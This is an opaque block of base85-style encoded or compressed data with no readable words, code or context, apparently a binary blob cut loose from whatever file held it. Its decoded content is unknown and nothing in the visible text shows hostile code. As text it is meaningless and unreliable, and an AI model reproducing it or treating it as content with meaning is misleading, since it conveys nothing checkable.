irLsCAq4?_qY$q$y^&A)Dr#^t<8xr93R6#2g}JCjs!f%CF~JkpPPRmqJ7#&?azk3C&?gV}0}4-^>jijj<#CX5v!9$C>u^cAS!5q47a!Kb@wT?Z{U|&^X43k(nT_jpwQ1YX#J*9Y@oC8*%YO#iFxCSg<cl$Ha4PA_X7xWln%no2%Ykh8zQ7R%8;tC}m?Ottue~2|m3@wpzzFtHKRK*4}(IBdv{b5)wJ7=}5*{U-3bkkbHY9(N6a{r$*+<b^QGs&409+7AGXs7!GJgk!hN5sd=563xzTn)7P`tMN;EwYq|*9d7VQ1higwhokyS{H#c<Ddu=wOh{b*jlm0N}fv=ZbY@E9g%6m=KjU+>2p}A-eS@n4&x#b6rq@p=jIP6j#%(aPP{J*Oz19F%I_dwpeWMoOHvT1tS+Qh={lxjhnR-ByIxV6<=KwT$?CGhsM-(@tO-;>szVDRZYnZx*xz_Y@aWVI7cGhAJ{1BHaDQ;0FUL9D$v8Wtt`pm<q$j|;{O$@(mS-*R6#4)-DWZBeTVlN7=-?L9%Oyk23i@sJqGNtr4(NTT?hBLg#W-fH?&zY$*EF4D;NfWGGLTp!t}PPI#3&wJnCb%XPoiQ`yn++S4<zd6RhwADEYKRcJz5VQPtP+O?NGdep+4gg)Bcq$9IECpQ@sM&@v)x*OG<CtQ)4+qI{$1vPPe^FvCi;Qf?p;9}{$49Yhg})?0DhmCTdePz{*D>5UgZQU)OmFgt5Sm$fLxM9EnjEA%qr+K`6mAu2L$A1=({bz)b28OB=Hw+uO~4fR<2IzqEuQRhYH-?#h1VG7@~am1@S7szRb!JTtVh*jj|R1*G(Vqa3?`qsB_s;Hq(az)n-)mVyEEM|M|KwT^^lQ3kdsbMsQ5EEAd#8lMZLG&l4zrY*T;k68ad~<b>B`qq4J$2GfIb=S}DN8Py3Q%{`6k;%FNFDlJh1BVyHHMFTp7<$&1yXb|PfjJLD1W8W=a<;Of0w|DQ|Oxo%nhY=`vYXHV)T`qaNiKjnHAeAWHy7JkYnD7%~WCrORqXs#`q7ZOb`6{_wMVywrTdzZp)-=Js<%awW-L}n3ry(?1XC0FgfF3#%?<HHL`f5(UGe6#X|55FJwdZdD@j*PxP2Zuc7xLW)H#3#s@>MD+MpD9%~4F-lTgq-G3`&s+a3AzE3?X2uA>M7poeCfbeM+wh`k1!TsV^FwX>Bj?}NX_!+0}Q&=n>ffZmG6*7yZ~b%`$R<TAj~;u27sfOi<qo0SL+C-KyDv;UC8VX0UZV0R#~f}N>EFeeI{JkugBsEq_cQZeI#ElDj?p`$rTYbYL0bowLzp$xNU5UQ1oUp-wHvMW_Ua&4k`NCk8CnPf12!T`KT~QWoPb2Q`FmGoXtqd+zdgaj(U5t#5XzwxR{(Pxq-}ZcPAK)i2f`(|8L;US3P)aLq{)@*cv0Q8IR*))FPR*0R&!FFI7;6AK;H$1Fpv$?GhfQbB@sge+7WR#384GE6GAWo<YMuCB1UHu0lSo<&|K`3nDtf-7%xFH-QM!-I$@$PL?Wy$TW%}TZBu;)5NKf<zFlOc+GHI>N9k?KnL#HH91$-xyPodBH^n%ozf%s(qPYn-lM_dAZ%L&g*0eq<Dm&8%4GMr{H@o0O8+gB=I4Is-h>@#CQ;epy0oOqkJ4-^>`FJD3D2g^!|F%z$@CyXedPkz2<G$VN@Q5-#v_2vS#))UAgfS(s&m!CV;`&pKnjx;M&3B1#9&h`1G?fD@yrPnI@AIzGHMXPwsl<q<%%-gqL=+U43D|^HIT<H`Rvf36A+gVN&3(rH%`&UBKy{h3bv)N;ap#Ll#^0-F4nb^kIx7TIZg!HiwK?#<ca5L2`oIA<V}^n0!ih36C_9$+WDm>5#=zZf5GZiPaKp-j3c$L29^hG@$9R(`rt;EoAwYfjjq-+K9`1pJFU@8NcY(<U0A<TAuk9}W`Dti!_giH8GRh@692MMAPD}YJhS)Wufl_Y2fz)1VASMW`U>X#{8c@?iJn9>Ld7ASsMnzSW9{hZO)PmwkE?*8y!hM>slwIUxf`<7kSgrT>dZ`#Bfv#FKzieI(F`?M!<nB7s<1lzerjJYHF&|0Hu=64CUD945Y~MZp?24w^zRMrSuZ1UZB&qr7l4gvi^cNzrSKl1K2}B#M0K^D_X-$rEJuFAru(W|h5`+X?aa|qU8*C_M2J$!GZ!$Z@X;yH-A!%yc2{a`;>|i=7jM)b2~46R8Txqetw%8Px5h!;4F@J;wp~4q?9_)kl{lrn1LdA^nr0<BStRPaQZKIBC{RG6nZcs%Q)zFHVj*_9z~agN{~`Z~vh#C*b7s(o%<4i4J6-V=eod8iplgaJdKdQ8&~qT>nZqnL=xKzFrNzBYAy%uI{n0B&UdNW}(zbb4gHKu-KX=k9$*4lfMz#thfb(lL(##Khpc4K4rhwQd3ipK6P#C_06iKxwR=bE+iNQ$&B4`%PDn1`{)k=d87wwd-M#CbmE&CF2)otG}rW^+0=wnacq0pj2bSUgYO6i?RIT#e3aNlwY=AEVv|9nDXuAu-w(21IaR0@;lz~y#dFFBXdIMW;gEQ%_)3!oH8b`Ja4Q{tXMuOC?0)GZa5!|BK@5u8G32Zj7o3b{UpO!}J1ud^?(Su)yxd$}FGhn*z^G0x}`vWUdqUB!P2uEQIbVf~#ge=&{Ni;^3|)HAAzBRP&PZTCKLF!gmN50a<ym2t2BI6*fac53=<rH+w%<4d{Go<UB&nI2OTlKKwihCOL^Aj$CyisMT5qJ=g0V1Bf0ha(qC4R+%G9pZ*<AtECXL|m1;l>CuSiNST?_XsbRQuWoYwT4gq(}_xz5y39yiI5|&ag}eO0~rDPDnUXn591_L;h+|yL7P|*a*K7LL^ZOZy;RQQRqH#se5u;U$SjH>oC_PKK&}E_*YJ{TTG*WjUZkDLjywc*G>g|)+EHdj^Q_;8K)ZipPvKr@ykEaZJZTeR?GIYgo}vPwB<~Nrzmi29S?h$yf8}_M6CW^#z;*m;QxF<1>$?QNV$mUMQf)zFv+__v&%+v=gLM%V6tO1uBNK2CrRvtO%$9$N8>@UzZ+Uam#m-{Dn_hpPkZ8>?$yJUgD8>Y0b9aK>B0Eq^PxH4gf9o}9;7V8b|Aicnwj#YS{A&{cBA4Kd2BpOR2`;Pc5u!P@?gt?wYO4^4PIerqG#amc%dYv^Nyr8{pUmA*dVN*lDt<x?`~jv<gEvTHymVIsA=DpvG29J%B{-}GQz>)ila*mV0r*3>Njg_JHZw1jWnDEsXPodK(zS6QNsky3u=0eJ9qp3VtpzIT%2$;LZLaiQm=aWh7yG-#*`xe%|5=5SpUZPRy^SWjq4J;opzwKaT-S%FHFdV05#%gfD<d=Q94z7P9iA)P-j-AEn{&MSDMm`@O=@W2=WzZC!@*OORS)ju2tcmi!^fC&2bpccwV#4474`}J{9#F_bGoMO|DaJjx(vofdywECI~6NX4$h`X8$^aOFa~*qE=~SR+r++!;8y#Kuf3Ku6Q3%rw>$zjnccS0Bk9NCqF(&U{<OujGK~@pI8eC2f`&F)$F0PA5(e}q2~jQ<ei`RjNU3vtULqLmt<tC}S&ULU8wtpjZbCbD@p|EG#4!zHU6Hi5(l?NKYiVzL#~%G&=T!&=$VcORwA4AF50vgTUIRNknHc<xGqV4_?18HOl|jC$;HjSb?Bhm0Q3EiFjkNj5xx@fu+4T2pG)I7?3UQu3>U?4A3vadrm(GVi=B`*HH~4a{0Aulkj%D-TjhkR~>lZ$3vQ_OEKs4F<c(a9Y)p6T1U@D#Jt2gj%lHoiOdEF2lSV7~|&*1r1JB1t|hVxsk2_iYjg@nI<ST`W#L{;9%#+iD$gwlGLb6eZcJZ{1yYWjW0V?J`azr_Qe?h}dwJ*<B8y*GXi<2-c}cDDU&sRG2aM_|1~rM+#nKIk-fC&j_MGaYofkU_ni?~ub_sdaw~%)}%>Gcs96PwHcDf7<)6g917yqO&S8)TZj%IO@WwzC3!Yq(u+@ZPlS={tcJYKQMNshaLp{)6Z=Vv?r8)h^RbvQ1#ig8mQ~8L_tHvW$GgIiLU`8pL%UsqzRr||C5EpaoLD-7Iyck`8XE@gl^;KtbI@k-n`G-+Ic#5FAu%TVZ%d9%|%&FrGfM0To)D!Ayp;|e1%c)`5H}d5HH@fQ$WrGPvec!DH!rFJz*n=yKyz;h?J~uO7u)^V>AEye#RUERE4v*a?c`oabD|@s}`wAhEDUXWba=GT&-q1MY>7A>?_K-`0$|Otwz@<Xpv}oolfzrV4k=U<#yBl58+p7oJwj??FJ6Cc#pP4iZzzWhZKB`!JnpmAKHM|l|Oh%2$yIjg7AY_CaT*|zDMSeC-vNHmlPW!RHbm%h6J<1Jv*^RY(FEc-jWbYz}8A2P%}LN(`Yg;%Rb$iey1>nhP7GsxD5>CO*7#eJIi_jF7rJDo6Uq=)Io%a0vXl+E4L$$CT85qV|}+qHZ#4G1J>PHm7*e3E;%9jK;qG;vQPGqKXy1B6ks4*=<Wv3y<V}$7|-mwc=yR|Ytq0Ew{RcGLH*lE36u*{LG|ZWbV^m}eFBavd{Bb;da~E!d_dKkD#Lv!1Ao2Fj!#HQvT1ij6@;^~><+;vlxy=zvb%Ooj7%JaE#15aG<R|P@d6*<TqCx^jm(RD)o(VI=GBm{S3)F4a2xq|;#w_3$TFzI35I3e#^zrKD!WLV>}qKp+F`8HWUggTwIEjdPc5n7YNO0lRaLB=f0S0Ju5eAZnli5!Ut1#G;tkKlnyqGzS@I7dWD@o(MJdTIn(Oj~av_e)(o-^)*&%WF+pf-ey7E#cXx2=n_3MzmfFNh-(r=JQA4bJ@z<OYrX^VM^9#zMzmR^6w6t`i-!|l3*hQ@@81(AoA<9E!mYcAi#x`f`X4*wt0&~~VLxDFEZUfN|plUmqH5H0K^;l$N)B_<p}vjA21w{2Z;gIAI3u2h%xF~<>q4puAqP7fI48HsBBNgz;KA++Fgh&KuFL15gX>!BVE610zUSaw%Q5*sRYf>Hm=KoWCSev=m5sOc>n=Sh_YOV%-I#M+iiCaOHyXxYrt1E2VSu*x#g)nW_~nqVCA+lxSqhQ($blH#)G2tIWCD6mv526)ZEP%>Yk73n`LqEF?*>Pf}}7&)kV-dy0XYe(?nzT){>R!N}=wLPK!RWrYR*X42IEBFmZfHxCCB?V@n{{%R2@?kW0g<?`9uf6)!uX$fUc7XQxP7XLZT$M$t!fIr77#mbW#tJ$*kRDyE$N#_EN9Vt2lz*f6n93pLT(ESwt}c2{<YM5}hC3x_y-%6&C+@@f^1f8FvMX<W@3E06Ux?9Q<}(m;KqZ=#bZNf;8P_(F?acpXJhs3UDNasxSc)5k=nb-x66kpeba7JIz1xotgs|pz?XHzJ9f^>ncr;W?b)wx(4TBB`ea+|oTQokhnXDMd)<tlr%;TbHg4~Q$XlCmO3tt5lX(@2(Q>|JQqxY*uU&Lz-h=wOJF3()y!)OpvB%tUDS31Dr&f~_AgPdJNpuj%6IIv8=C~p@0E`q$kCGep;IsShU@@(wUHJhtHL>Ytf>Q0Cp;0REuv$e>=`_!2V`)p#)J*A|(K9nzWN)OWew=v8|GPW~|`AOYUMCZ3tlk%n-y#RT~@5#8KVH9K!wYN?}%9(V7W}-&R?f+Ghb>htL*#_)5KKr7hHaj;N!YR*fU&6~Xe+E}gq~WuK=eRfD9BUX;7jXXFozC_A_C4WgcoJA#2ZA0!{&q1BDs!91pbN=`1kxE<L}TCu(mCjp%@E{BkLtruWjH9Z?<-Xm;Eci~;VDnb69F(A=?YRH(eVD!-5k$SYndk^#Qqg80-EEzY8^}v3*5a>xe+&X>gm_iSey{AmhKlp1WNi~zJt&E{h3kW7qF514n-E>UL`5>LqZS@o~1QYw~WckOvrRg9_Sp4J5VZmBn(n3(uC4+Y?f5{a*cLqAr?arRDF^eAW5l><-j$~(V-sg^BKu}nCp~GufWH5=r`f72K-60k(&dWY<S~-C5g7!@--_Oj%l0D*l9=b|6sBCngF9!h6_4o`lx&vVIdjWL(dJSpvUp|9L8-4-gH2Sc!l+TN8$N%PQdaC*?5&Bx-YSbBCVHRFgVl{FoWSlFOtNQSL%sTW#RH|&d*WV5N$e%unMQ6YsLHgq3w0noi!hEZguhf4=&9c<xgpkicg!*`^X^PN_L(URo_(%$I2$k9d56|^F+E&c-B{~;wC;j#|NVlOiheniy4oe9{56&tGgV=q<0qF_>%su@Vf&UwfC0+ReQjafGlo)O&Nlio%&gsa1_u*9FsHrZDANPOeJSt?kS?cJG_W83s&qu`bXwJhw!@_Wp8@;$JJA@AbPF_4t9-3i$ko6KN+U(W6dl;Pt+Utx-sD`5#cH;z@BShp!SkOg)56s=x_qS>A$>d_BYs7^Gll#6jGY_-+(9nQuM{iX*DD;Vm$_~vB(_7z?$z<<!*66WP$MWD=LZVtliye7P*YK4*cT&?)wzqKNY2paNk{Fn-$r&V~r1SlUh+u@YH{9Zr(AB^xvXRNl5GgQ_|Ign%bf}Qn*1swC@a-2HK(3dcUHStv;tGo#}QM1-5N-_-W&Yr^86x)uDxk#;y+5(CteJ3BfDsf!OHx=a@hBCSFOaf5T~IG<dd{<of25{jO50JNN|dI@pWx;Y;2)3ORnolLQ7|*U^Cv#+=?KpTEh707%=j7&jPJ>eU}{`d%Z?udSvL@I&?PlhfuAq_L-KG=y)(6ZHyc>!#4qGsygxEOwbY2R-x#Mc;WIX(8xBrDF{wcJRkC#8oF{&b)O8ANB*udXiEu%=7icToJY-dMh?kl7r$(OZ`1<ZRIiE1rnK1<NNO<vBoHNWgnf5o8tginTcY}v#Dg+qDc2`quny^&nrTg*K0T^4tYQOH*B)5BeX^<T&rltEU-LLoODzcy+;6%0X%Mh6)qIYmo$(jD}12@Dmi@O;PYc;&Mow`14vp6R=1UgFFszFZcr^|Y!YHeGSIk0azqd0%cUsr6RHQI0T=^VD8S(dZz)H5jpMQ263GZ*$tS93a5l2O8|MZHT^Kv*OJv-<KeiB{x6IQ8><H=s`5?x|v6n<pY9j7&aW6TF&;JEay6_S&P+!xtX*BuFN_wCcnm^$11VHL*AJ_=Jmmgz76=f1bD@v|+CH$7L2Pc><J=28_zihqlpZwGEzY#0(Fbg!QHg2%fdnzwb`&0A!bEV-D2gI1lDXyc6jlQL>^hKbQ%FkMZow%6p1VhvG!jVAi61ZZu;pElB10rGiC41u^f1CwM>OMCDy2A&HkZ7}P@Ba82SlA2rp+A`<FX?!ttzLV%2M|?`>m7>!tgvg08;Cz-1)U>-q-hM$KzN-e5&Jo%RNpd6LO4?!0hs=h+!hmR%Dl4iiDoX({z!r!L`j8G266d<MCODZ1}AE!^IFB=l!QIZ6pVt6F{8SV?zf#PHBxiF15w==Pgp^c8cR&{NRQaMW1gL37lHwcAY=SP<RZJw%3-N7dTF`24>%EFh-MfYwkp+v8rd#i2?Ivf=ij=jM}Z!ilXQyW&PzS-j7UHjy$U6w+t?>80|nxnSu=5US^`m!;tflM@F4QJ3?x#R4l*C9B$6T>1h67)OnA@p(&wwLZAo9U+g$q=-9SdxQ_My_s)L{^1kBA{n(v#-+eCs3pR7E7he@VF`<L1k6!1Fvt}7jbzX_3`JiM^fT^nvVRbadNWLU_X{ew;)<Qsgz92znn^EU#Oku`yBC0poU-XxPN;o}65Zq24NIkZ9ehJgDDcSmC;YN_ow1<GQaIKv)`fG(#%Z|QcH7tbhS8Xebk?zln#r1nY6rU3X*HzlR8+sWbVZa>3RZUVMmg`5ECRz7MVZSQQ<uRBDex4#3mmg-ci&+R6lhTF1=R%_AL>65%^VRBpQRCP|H)@uLdr>~qP+Frn`ZaZp$j5TzBaN{LqP3bR_Zz5XrXz>eZ6LK=Y$2Zf6_peV=!6%gh0MWT%Fc6)}3|~)$zq%)QY?+}y!sEx6$nA^)2(}1igH8N@t@kwYp5JoOBqDaD@a<tnFLR13r!I9g9PU9yT)>10X2?tddztvlu8ERViCW*lALI*WEKK-C^WD9D_FIS$r#%h&9?<Qct0>i6M-ZoMZ_|-+%^)OcJ|hvOsFl!IaU0GyW>){UtKdNhR<<4Gkx&(w>aC_*4HK{N@3W~Ft~cDRF8Z0wroCsc2Sd0Mjf7C2aB9OuW69vW`a1;XaH*TwWJc)e*aNA{8@83efo=0y;~529nO|+|n1*MBC)Q0I`IK77NwUc!;D$fjsn7IadV3VTuTwDogC`MZ4_8yaw7OrumV|JGurXfCV9RK-T77AmPNxPwfw8A8u3Pa^uY$;%`7>kdrtGxG(e6wWEq!7q!TY<E*HadySkJ>!3nsQ5L*Oh@Cil0Ji>-%P?_MTdtrIF^hBoAc0l*!QIy=3ZjA}F1t(-QV!XG>-QyP-7N(p?4<Ad;&Jfr@Fj*ni?k{p;6>l^WQF`3V&MRAMEy{W6XMATOa>Mfn&pZoro!*Xjg5@9-pinH}Xy%dT40cHygZmeqT;&NL}k^|!P>3zU6Pt<+n2yyP)H|kJd;ne@s_UIC*qU14P3RRr)>_jVIRt2o<kLyEWVnKbbvL;u)^2S*WGq14^Tyl3&+0o2qA0aNR*1%3fIr_&0#Md({MZc<VPz=aF5WK33XujGECKHq^Fq@`kDPbDu3P+s{>H^i^vT@kp_fd=f`V<a_AV@)8Cw}x`c3SMdmS<y#>v%0H<@2}iuVM`1rv^J`A7QHu<6`*9{k5HGp61f>tmB6ZS|-hrZ$|KFaBk1i7CSPT)m3&O+VkrFz)mb#&#bya;$j4acy?NW$0tNV=IetKy$YQeZZo+GkBlH{S864~*+bm;9W&W_GBmc%XT1dp7RFY5AJHbAX9RF{;<cM;e<!;GqUfC5mQ~Sfp#|>1pOwp1EZonIY1$l#l0eDyqsSSwUZ^=PLZXZWTBvj^r7Nd<4=+2nsbFLs*&8xd`Wk5|dy;|Ps~*-TLNOSQJ+%nM_OT>wa(dN{TjscL5jgxdv$^o6#)lojYewm-iM^MGi|cT5TY8d&S@+~&hGRjkoicmrg2GSx3*RQ;f)Q41%!98qqJehQ(90YgAzVf4@11TE`XR*qpeO~lkoL_z1GN5NAq*SqJto%DRusoVaM!0v5RjD-boXie;Gm~;qD*g_8ME9J=oU#G(BtuRz;fR&Q1l$qWkThqcvX$TM3ln3NpYaHv*$-#yE#rT2K*goUPvRNSQxlErB*S}*kIH2X`xo8A03p0v(UHTM+)#yl!^z3V`ATbeorzibCnpH8wo?Njz7QC3{N^lj0NH2xu}j-yR(NT2QVE&!tW-lk`t{A&j{0C^<V_&B+Af~S-Q~DF<n_Nb7+6tHgY&fvXZ1u3*5$HjdnNE`@;PrHKYH3o;#qwubxVjTtWT8TPF?mKL8~q|J8%@8Mt|M6mUVNPn_@vUt5^kGjxxz`8$94Pr+M_4hr7?1gX|?K^GxF*tcQ)zoYiBS|tQTPJH&esb|pa60Wzu$eUzgtSP5iNvT)Bft=ahy?J}<@#u^3nIcwa=RD$tOcJB8hx(OzH=!HVIb0d5A%3YN^oo8LTRH80X;(4MTSRbd==jU?x#R}9dpE;EIeb)@@uXDSUqP{5v>YS<;<uaAA>>KpW>J2MzZzqZq!0WbkN>cNFt_)KsEf~0tF6f2+(i5Ts$Qp#e2TS~&E~&8sSqWYuDTnJLl#AF5<Uu39Z)@B4$9V?t8VA=CW1GR#j|y~kr6ItvhV{aVRVgM2IFe(!w$cjHk~mNy<Cl#f(Wi5+V$pM8CV!ZecJ#q<S39-r7%bt&IRE4-zr!Lz%|*6t=BDc_E4yh+aglQG`4lTLN&T%F84!w5_||r;biTvPmj>Ot^)20hB!u1x20{#;Pcc6!b%nyT)(!EWjhQlK96%)p$PR=+p@vSG(NzIG5;%Up~Wr6nE)<;jgY(wpM$&s7h$gU<#2|5t}Q=(>E-C?OXyv4jI9mt2I>sNDOcfU0)|K7fB`<pf1nm{{OsJV3omm+KW>MvcRhugVK~L~C-s+Li91(Nq+02aVU1lMHYdnW+95A@7Dx}Qk60HQwILJKu7ZeBU*)JUA3Bz>hUj+FHF05%X!v+#$8`InwUxaabL9Nk^tCp&AbVs=>2=`JrO+}nrdm&J7~|O@%ifEU;Y5!g;Si=BL-`>-Qr7H!l+@w&+FG7vUrXImeZo|6DV#N%Sd}<(;RI70A1&;Ypz9Q~595bviXGvDb}a$phCgOydH(uM@Ry$Bre~sSKNI^`zpwO@E?#h7K>q~7J~K>=<c!kC-|b*VnS(2N<(nwuZWKce#3lu-Iw*1Ya8tB|VZ#=NF8`4@#Xnxd^+Yb`t<_c|Xk%jLOg57e9521NL?PXN&NlYlH-)KO69XXnnk`Y;dceU1!)MtrQu=-BF<EW)l`m{J2OaC~rA5x|<?Hhu0od2@W}0={sC7>X2@>`$`-#$WuDlLTgCc{(Wy;@mUcIG=91T4n-~?4FfYJYt`NARPT1o_Pd5yUHFcS|!AByW1Mk}NV<S0&k@MrUF@Rybh{YZ!jo_T&ACj6ODOXO#G3dtL(g$1uoFrF2*Ztf^Es;3q8Hf(m5KUSubpRM%sS>txo$LgCue^v}}*9HCk`N=-3{>&rrmSeSUfI$G^^JoE|LAcFKs(tp&U)JH{lEkIB91iSZ?BXDGLcgz7a3`X^SIogpEHP__s_KNJw<v6NMw?}!)p*yBwN2zCFZ?vKI}Vm3!5=~0G5bDP#p+Cth3;3~KO8%{g6s3?3p?{)6z{M0_DL$KSZ8kx^qXOAOmhZL8~lSUiY-_pIPZgu0kmb*aBA2%pTa2|$Ppwn=w#Hmdx+H70^M3LvlYSIU*R{7wbjJpelp@6Lx>X=wm8EWR@|l@BS&V$7>T5SJp%}5AS|P*9Gd1LZ7a^7OQmf<V4w!vEwMVtfj?)SG7Y)b=XfAG&S|x_H_V-@YV?g*uu~I2mq2WV3ufv@)A-Z)_7o?#KkLnf8sJO4#?ILW@P=HygQq?G8mu3*ZhZS>CnC1;cpHSKAyB%D`i$gAhOVFA<5m9cz8g*l(yD>Ujz)PkgO`JBG0u9aU9;*Ea&ooa^{})F2>D09qqbD<&OX@@Ib<#7^Z1YAO2+Ys5}jBgS)rqPrB3keTKzK2s_qZ*Y)>zH*;9NmQh^A7pOPT#7>L`m0JyKq^%R2+4b@I?YK+a`$`m5!sLmz9R;u?eNlBu1B=+ZmXjdXUm)4)s826f3cF8eTfK$6(g!4Fi+jiX<FAD$r*X|Ie)L1tU+6)T;RcBE~CX*1w>w!iC!($g4uY-6nia+av*!CjwzQuZmSjJ$O%LSa`grHIkp;`aGC98s#(6R;Fnqs$|Gs}MxnaDdiCN3t$blSHwVe>rB1P8G8L|lz~iER#>Ec9^4f*VGSvp;H)LO<jhYBpA{)sV)zVkdXbv`3-H+H#-nT5MwqFE`5ub`S0^K{dh<8avljZg}GVA`SM?aJHKrS`rZ5iHOXSI=TVYjfr??pT$3vsse{Ryc6e&fw6H!K`enRDbAstPT)@Agm&)#);)#3{2;h%M;BZ9rUY4}BVyG=dM^DhqV$>?@Z=h9Q)LQ?!G*D$)ffw4?!IrvB}VDqH}Av!Q6pK4(^2uWyfSqSw`ue!fNci?c=PY<U#dlYjh>1iW7CdCFsRJCUc~8#wVt+@XoA+<*?+(alL7`G#($c95Tee}#5lzqXocU|#O<|wM?`Ik-y8Te$OdIE%$*yg4!@=>8<9N=gM&{{f@BjYeRzHaXMi$LrgP1_T)-<xWDgXuug#fOHuW?6c}dq8sH2?r&C45jujPY9-amp1RpRR~l9;UZSe0D_Ln1g)3T14;@@^J*!Er8@;$+h3+Qtp8xd8s9HE@o8c2c@esIFd7x|PhARq_Q5%OQeF2%(vHbi8@iG00dT?OdT%3*LR6Z+HiO;b-8oo`uo|IPC}w!*ER#vu!tpP7}J8uDoGw*uDclU$v2tPe!Jp0fPLE=|fI0ta{Qco=v35ug$(V+$Nax<~TJ-lc%Uk*;&W#v@bp#V7jd`KK><~_NG+EM<gVQXg+^iffUlwzZQ09+?xm#x5?OiI$AoUP?0)$U|{i?XMj5CTX>rfa)8T4&M5Bzk4aI2S^>vNQ4*TT=S%3#kS`rYircoSscQ715Oad|Lj`oP0348ih5wA)Xf4VKK4s!~IsmfBuT$hZ9FLuCeohoZUsJ^6GcSZX8Gr-U5-ZNb#OW7b2(OS@%YIj5oYClED;}@Bg5}Eh2@P~>zVwI+jkWl9%w$9uC~Tj6LX-1d5>X>e>|F}@|1(v-i|f(oxmd?79>bM=h8i=AW77(l+jxe&d-`|Cmj;oZ9i7@g8F%&R@`bljCD5C)F7r9gG8vx*kX|258x|&N;yl^b$N^C+0v@7d#I{57*<6!AUhmoaqke@;Q>*?L3hf!pnH4hx0i%cv%|a*(S9Ab~YuuqDLX_I@c?9l&1aHKv!Ta}Or8}lWWp|oB+PvyiJ+1N+{6&)`320LpxS)}txxj-v(${Z?vBdO0$-EuRb7VE{{&Kb4RSncxSacij7m-o90$W<ZfuZ_<gPz!0+fN*B-=OiY8#TRNa_w3RWjeGbfU^Q2&(lvJL*Z(uHHmo}tc#G!|C{8Uefv8;ms2)KDQ?JS3Gi(ScCGM_!W`qJ>S=EXMKrSQWEe?#9hdK{pq1I_F}h^JCE~f$|EK6G2Yife{!9nr1~_<h6WpmUe!`vGIBIzqB8eTIg0F{5qdc^^`?NV+>Ql5dk+cnBl&>A15q3y}^SzJ@w`GmE$S!7gXy_8vkm*o3>63Qfg@|i}_B`v4jXyFt0HZDqQrLCKY(&yqUu*pf+v28i9)aW3_#88N0_@Kk9qfG%0FayEwpyM{>#OZW^-><_T>Z`#RR|=pYs+#wE;@}uo?XDTZJ9TSgTYAJ?gpg%_QAOd?{LXG_ol<yI696PzB(^%rBvH8?hU!Z`@NFgMxyGz+9di;m^z<Qjp~1%LY}&(lK5Zst34MRF73C(<%@g;h4e47==m@@3orkK8hTL+_n>y^gJKDtDk=D;m}YGHNJM_K%vZ$z2FqabPjcP*zCko>jX0FnNx5Bpv?c`;FxH?onMd)`zSp^|=LYfLih4+fAcQv3{6Rf@jW$BtPenH9a|*W4ZKh~bsy4`Dq8$0^_I&e8!lOqU7k3sv8vD^P%y2$3lrs0Gb3P9-gaGVRIYKGA;ej6@xkX=i&zmeVkrLW+x&++SOd6hHNiCsz_uutYt}RQ~-1q@2X~hjhX75`GmBAI9ObpVz5JAnax1n^_;E}bpn!iEfRt)(iTxOm~EU&|DoENQ!OEvpUb<sCL`~(u$aFeR%%~m(e#2!Xcot(suOX8{6$d$O>TAsLUHsSnCK0#zO)Os403J3}D_6bJf11O=BJ@=*PA(|S4LPt+&w9n#*TWhuhT{?=mC0VwA*-LR^(;&?@TD|XVJ^oUKNJR&dU>GC|rCa;YbkdRMwXO7#f2?T`Xr|}=IA^U&=R-GI(twi+Y}lDa%}TKooI%{2Q~d~rW^k+18H#*RCqcAEjchp{syqDRC<dTV-W;sGXMd<ZlYqFL<)dri#U~GDrNeu?Txxn(>iQg?Z-v^!{IMpANV>ApXXL^?ZzbeEr2wGqE+4m_M+-5GamrI!37pW$*)uNCzf6at_uTp1l^s2T<ez8jzY@Snf4SK-Ly&;;D0hUTSXu7L;ogRr&*^kD`5a2f2uMJE@#sm*7Yigdj`ZFIlF`@50fhs1S7^T5d|Lll;TC>#EiQ|Q2|UU;!k1z`pd8gez2TsD@%)u`?6x{FiWcsl@;!6fZW&J?hO`I?E>qA+k38YyBY(8nuD-EYyykm@Slq~&;}l+6)a}M~4*;md0LrA&+xd9>N}+)IY(J$$sc8g$j1G)KV5p*}fy9Jl^9)}(WN2XlJME=>)OKHX9ZEv62Lc>%+El(_2lc?<jk#qY{U#~kc4PP{Hyn=dOZSo>+?QdhYS`AY?J%!kD0t9~-BT-uMTSSAQV?VXOtZf!N!7Fr-7mo{&9TmW6mQHfL`X^%7uGu(1H0ts=P@3sWv~d%>78^}wzCs&B8~V~PJ3MM;}1<d6~G@s8UN`6&R!7FQrMZ<iYI}7r<4~SG|2Hs!=f-hax6fCH#@VR02nHV;PojKC+wlKN0tVsuSKx75c{(Yi45Z(&GI10f4@YV0I~-%+ik%OEy5=Lsht89Y8};*+&O$uGv4q?-KX@%aY>+fb}R*y8fLa-EX?+E>13Lq`XVlK7cJ6bSFt@&BMh;lIAKww<ieoF0WYwI{<JJ34dlt%;hn}c%>R8A+za|8lmK*)gb8W&YO{?z@c!F$*X`!9G8J@9(SGakmC;U6!eEO#kS#$Y2Qftz@5Karc((yS%6(*^fdw6#zh6zAD|yv{v*u?c^7{8JP#3eR?CuZ0usaF$eN;OAx0iCe{?oBh!RidJ&(fNWT?gx*-9~t-3DMbRuoL&$2tUJ=P@dWf+qy5gABHSJWb(%g1Nu|Df&V^TP2+hk<0EayQoe+Eq#|zewG|R=gTP>3wSY(?Qgl_BtkUs_kYau=W*_AZa`mvk>j~hsx(QFtB2@Xk9*jk`>cWiu6=4o*iPZSW@_v-{-KnW-l!v8;tWn_!s9kwf2b{YKhom<(Pewm#Vw6IrYCA0{aheLawi`%=fh*+mN<<(H7Ly&2w^egRlHlXQ@y3PwD*+MK@fsu}3Z?1M3GpH(C-wWGO$0w^e$hp0(g49$knZP{3%cY?ZcuwBbx;Z?m)9rL1FszYLE)+34;wz-wLyxY+xfuitBl%4vhu`n%$flEi6RYMkzmZ3jKE-#Auv&w)Gty3Sn5j#+ZF=rle+Ru{k&H3qo%DuFPBW}o@{RQW$GNhhNe^EXd|#|qiiE@e((~Jp29TTv@D&{T{1JQ)SJe-LTN3!!6JI8+<yZUIGn)(7P&qmHttY!w9}U!^raT1h&cW{=*0t)0>8~EZ=fGF?H50@ovUP{8uOdlc9KR;V|X^@P2fU*+Mgb#^T;bw3aT+s94ze+K+z$0$Tytc6|gMa!Cu)nER7)xIXQNXDjoP*d8{8{y^AVswT0r=qJrNuc#IgGjF6WRln*lq+WJm2vhQ<}Mv)z4^XAK+fZRDHLIf>H3XBQWcAf9$tW%+%n-|n=f%$PSUl3-_`Bh&pJLDuV5aM~JzTKVCHgEAiLhcEm@2pHj<+j8xw*W+a@gVZjiHyn*U;m0gMR;M9pk1G*(ZXGY`kr*z;)OzR19c@3y=XnL6!f(#nx%EF-0F>2b(c@sq`33jG@fs^*JLxL{=)M1ik-buzjOg6Lou9chZeKf3aJ|o*WYpH$xA|~A{G(<&=-?y91pD;KwC2>vViw_@ns}qYzv1EtejIUIAe0UGA4VcHKZ7pg%H=cs-M